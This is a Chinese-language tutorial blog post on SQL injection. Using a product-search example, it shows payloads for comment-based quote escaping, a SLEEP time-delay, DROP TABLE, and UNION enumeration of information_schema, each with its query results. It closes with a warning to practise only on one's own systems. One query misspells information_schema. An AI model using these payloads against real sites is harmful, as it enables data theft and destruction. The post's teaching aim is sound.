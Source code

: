 ```yaml
---
title: SQL注入基本原理
subtitle: 知已知彼，百战不殆。
description: sql,sql injection,sql注入
date: 2019-11-24
layout: default
bg_url: "assets/images/code.jpg"
category: 技术
---
```


## SQL注入基本原理

WEB技术发展日新月异，但是徒手拼SQL的传统手艺还是受相当多的开发者亲睐。毕竟相比于再去学习一套复杂的[ORM](https://en.wikipedia.org/wiki/Object-relational_mapping)规则，手拼更说方便，直观。通常自己拼SQL的人，应该是有听说过**SQL注入**很危险，但是总是心想：我的SQL语句这么简单，不可能被注入的。

花5分钟看完这个完整的例子，从今往后应该再也不敢有以上侥幸心理了。

### 简单场景

有一个WEB界面提供输入商品名称，展示对应价格，生产日期及生产地信息。例如输入Hammer展示：

| 产品        | 价格  | 生产地   | 生产日期   |
| ----------- | ----- | -------- | ---------- |
| Claw Hammer | 12.98 | American | 2019.11.07 |
| Club Hammer | 29.98 | Canada   | 2019.11.11 |

我们跳过了搭建Web搜索界面的过程，直接关注重点部分: **SQL注入**。

如果要实现以上功能，那么我们大致可以猜到服务器使用的SQL语句如下：

```sql
SELECT ? FROM ? WHERE ? LIKE '%Hammer%';
```

其中`?`表示目前我们并不知道具体的表名和字段名，此SQL唯一可以被操纵的就是单引号里面的输入内容`'%Hammer%`。假如我们直接在查找框里输入一个单引号。即变成

```sql
select ? from ? where ? Like '%'%';    
```

这样拼接后造成SQL语法错误，得不到任何结果，我们需要使用`--`来把最后一个单引号注释掉。

```sql
select ? from ? where ? Like '%'; -- %';    
```

`--`后的是注释内容(你也可以用`#`），这样你可以得到所有的产品信息，目前为止，还是没有嗅到危险的信号。

| 产品         | 价格  | 生产地   | 生产日期   |
| :----------- | ----- | -------- | ---------- |
| Claw Hammer  | 12.98 | American | 2019.11.07 |
| Club Hammer  | 29.98 | Canada   | 2019.11.11 |
| Paring Knife | 10.98 | China    | 2019.11.11 |
| Boning Knife | 19.98 | China    | 2019.01.01 |

### 小试牛刀and

紧紧抓住上一步中可以扩展的单引号部分。来一个简单的延时语句试一试:

```sql
select ? from ? where ? Like '%Hammer' and 1 = SLEEP(2); -- %';  
```

这时查询会2秒后才返回结果，如果把时间延长，用脚本多点几次查询，一下就能把数据库的连接池用完。

当然，还有破坏力更强的！

```sql
select ? from ? where ? Like '%Hammer'; drop table xxxx; -- %'; 
```

可以直接把表/数据库直接删除掉，至于如何知道引数据库中有哪一些表(即如何确定上句SQL中的`xxxx`)呢？

### 为所欲为union

 我们需要知道此数据库有哪一些表！这样才能能拿到有用的信息。

使用`union`可以把不同表的内容拼在一起，小试一下：

```sql
select ?,?,?,? from ? where ? Like '%hammer' UNION (select 1,2,3,4 from dual); -- %';  
```

| 产品        | 价格  | 生产地   | 生产日期   |
| :---------- | ----- | -------- | ---------- |
| Claw Hammer | 12.98 | American | 2019.11.07 |
| Club Hammer | 29.98 | Canada   | 2019.11.11 |
| 1           | 2     | 3        | 4          |

可以看到我们把假数据`1，2，3，4`成功地拼接到搜索结果中。

Mysql系统自带的信息都存在`information_schema`数据库中。我们试着在里面找找有用的信息。

```sql
select ? from ? where ? Like '%hammer' UNION (select TABLE_NAME,TABLE_SCHEMA,3,4 from information_schema.tables); --%';  
```

| 产品        | 价格    | 生产地   | 生产日期   |
| :---------- | ------- | -------- | ---------- |
| Claw Hammer | 12.98   | American | 2019.11.07 |
| Club Hammer | 29.98   | Canada   | 2019.11.11 |
| authors     | hawkeye | 3        | 4          |
| products    | hawkeye | 3        | 4          |
| user        | hawkeye | 3        | 4          |
| ....        | ....    | 3        | 4          |

现在知道了这些数据库名和表名，所有人都对它为所欲为了！(**包括上面执行的DROP**)。

看着列表一猜就能知道我们目前查的是products表，接下来我们再把products具体的字段也挖出来。

```sql
select ? from ? where ? Like '%hammer' UNION (select COLUMN_NAME,TABLE_SCHEMA,3,4 from imformation_schema.columns where table_name = 'products'); -- %';  
```

| 产品        | 价格    | 生产地   | 生产日期   |
| :---------- | ------- | -------- | ---------- |
| Claw Hammer | 12.98   | American | 2019.11.07 |
| Club Hammer | 29.98   | Canada   | 2019.11.11 |
| id          | hawkeye | 3        | 4          |
| name        | hawkeye | 3        | 4          |
| price       | hawkeye | 3        | 4          |
| address     | hawkeye | 3        | 4          |
| updated_at  | hawkeye | 3        | 4          |

所以，通过上面2步，我们知道了表名和字段名，那么查询API的完整SQL应该是(把上面的`?`都补全啦)：

```sql
select name,price,address,updated_at from products where name like '%hammer';
```

通过不断重复以上几个步骤，你就可以通过这一个小小的入口把数据库的所有信息(比如上面发现的`user`表🤤)都翻个遍。



注意：以上都是在自己的机器上尝试的，千万不要越界去hack别人家的服务器！

如果你SQL注入想要更深入/系统的学习，可以使用当然你可以自己本地搭建[DVWA](https://github.com/ethicalhack3r/DVWA)，或挑战[HackMe-SQL-Injection-Challenges](https://github.com/breakthenet/HackMe-SQL-Injection-Challenges)。











